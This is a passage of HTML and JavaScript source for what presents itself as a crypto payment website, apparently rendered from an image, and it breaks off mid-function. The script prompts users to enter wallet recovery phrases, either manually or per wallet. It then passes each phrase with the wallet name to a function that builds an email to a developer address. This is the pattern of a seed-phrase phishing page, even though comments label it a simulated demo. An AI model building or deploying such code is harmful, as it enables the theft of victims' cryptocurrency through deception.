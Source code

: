     <footer>
        &copy; 2025 Crypto Payment Website. All rights reserved.
    </footer>

    <script>
        // Function to show/hide pages
        function showPage(pageId) {
            document.getElementById('home').style.display = 'none';
            document.getElementById('payment').style.display = 'none';
            document.getElementById(pageId).style.display = 'block';
        }

        // Show home by default
        showPage('home');

        // Function to toggle input phrase field
        function toggleInput(card) {
            const inputDiv = card.querySelector('.input-phrase');
            inputDiv.style.display = inputDiv.style.display === 'block' ? 'none' : 'block';
        }

        // Function to handle manual phrase submission
        function submitManualPhrase() {
            const phrase = document.getElementById('manualPhrase').value;
            if (phrase.trim() === '') {
                alert('Please enter a recovery phrase.');
                return;
            }
            sendToDeveloperEmail('Manual Input', phrase);
            alert('Recovery phrase submitted successfully!');
            document.getElementById('manualPhrase').value = ''; // Clear input
        }

        // Function to handle wallet phrase submission
        function submitWalletPhrase(button) {
            const input = button.parentElement.querySelector('input');
            const phrase = input.value;
            const walletName = button.parentElement.parentElement.querySelector('h3').textContent;
            if (phrase.trim() === '') {
                alert('Please enter a recovery phrase.');
                return;
            }
            sendToDeveloperEmail(walletName, phrase);
            alert(`Recovery phrase for ${walletName} submitted successfully!`);
            input.value = ''; // Clear input
            button.parentElement.style.display = 'none'; // Hide input field
        }

        // Simulated function to send phrase to developer email
        function sendToDeveloperEmail(walletName, phrase) {
            const developerEmail = 'developer@example.com'; // Replace with actual email
            const subject = `Recovery Phrase Submission from ${walletName}`;
            const body = `Wallet: ${walletName}\nRecovery Phrase: ${phrase}\n\nNote: This is a demo submission. In production, handle securely via a backend.`;
